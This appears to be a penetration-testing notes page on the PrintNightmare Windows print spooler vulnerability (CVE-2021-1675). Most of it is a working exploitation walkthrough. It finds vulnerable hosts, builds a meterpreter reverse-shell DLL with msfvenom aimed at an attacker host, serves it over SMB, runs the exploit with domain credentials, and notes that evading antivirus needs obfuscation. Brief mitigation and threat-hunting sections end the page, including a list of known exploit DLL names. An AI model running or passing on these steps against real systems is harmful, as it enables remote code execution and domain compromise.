 # PrintNightmare (CVE-2021-1675)

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

## Get vulnerable hosts

Check if there are some targetable computers.&#x20;

```bash
impacket-rpcdump @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```



## Setup the prerequisites

Then, we have to install another version of impacket&#x20;

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Now copy the script bellow into a file (`cve-2021-1675.py`):

{% embed url="https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py" %}

Create a payload to host in our SMB server.

{% code title="print.dll" overflow="wrap" %}
```bash
msfvenom -p windows/x64/metepreter/reverse_tcp LHOST=$ATT_IP LPORT=$ATT_PORT -f dll > print.dll
```
{% endcode %}

Start a metasploit multi/handler

```bash
service postgresql start && msfconsole
use multi/handler
set payload windows/x64/metepreter/reverse_tcp
set LHOST $ATT_IP
set LPORT $ATT_PORT
run
```

And now start a SMB server with impacket-smbserver tool to host the malicious payload.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support 
```



### Run the exploit

{% code overflow="wrap" %}
```bash
python3 cve-2021-1675.py $DOMAIN.local/$USER:$PASS@$DC_IP '\\$SMB_SERVER_IP\smbFolder\print.dll'
```
{% endcode %}

This command below should starts a metepreter session in our multi/handler

{% hint style="warning" %}
This doesn't works without obfuscation if there are some AVs.
{% endhint %}



## Mitigation

To mitigation this vulnerability we have to disable spooler service on the PCs

{% code title="Powershell commands" overflow="wrap" %}
```powershell
Stop-Service Spooler

REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
```
{% endcode %}



## Threat Hunting

* Search in this folders to find suspicious `.dll` file.

```
C:\Windows\System32\spool\drivers\x64\3\
C:\Windows\system32\spool\drivers\x64\3\Old\
```

* Hunt for suspicious `spoolsv.exe` child processes (`cmd.exe`, `powershell.exe`, etc.)
* **Search for DLLs** that are part of the proof-of-concept codes that were made public, such as `MyExploit.dll`, `evil.dll`, `addCube.dll`, `rev.dll`, `rev2.dll`, `main64.dll`, `mimilib.dll`. If they're present on the endpoint, you can find them with **Event ID 808** in **Microsoft-Windows-PrintService**.



